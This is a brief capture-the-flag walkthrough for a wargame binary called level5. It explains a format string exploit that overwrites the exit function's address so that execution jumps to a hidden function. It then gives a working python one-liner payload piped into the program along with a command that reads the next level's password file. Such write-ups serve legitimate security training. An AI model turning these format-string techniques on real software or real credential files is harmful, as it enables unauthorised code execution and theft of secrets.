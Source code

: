 # Walkthrough

## Disassembling the executable

see source.c

## Analysis

Still a format string exploit but we don't have any global variable to edit but we know that we have to jump on the 'o' function. If we try to modify a offset on the PT_LOAD of the program (at the runtime ofc), we gonna segfault so we have to modify something that is writable like the data section. Fortunately, the exit function called after printf use the data section to set the address of the exit function so we're going to rewrite it :)

+ 0x8049838: offset of the modification
+ 0x080484a4 - 34 <payload size without padding> = 134513794
Divide by 3 and align to to get the padding needed


``` 
(python -c "print('\x38\x98\x04\x08 %44837942p %44837939p %44837939p %n')"; echo 'cat /home/user/level6/.pass' ) | ./level5
```
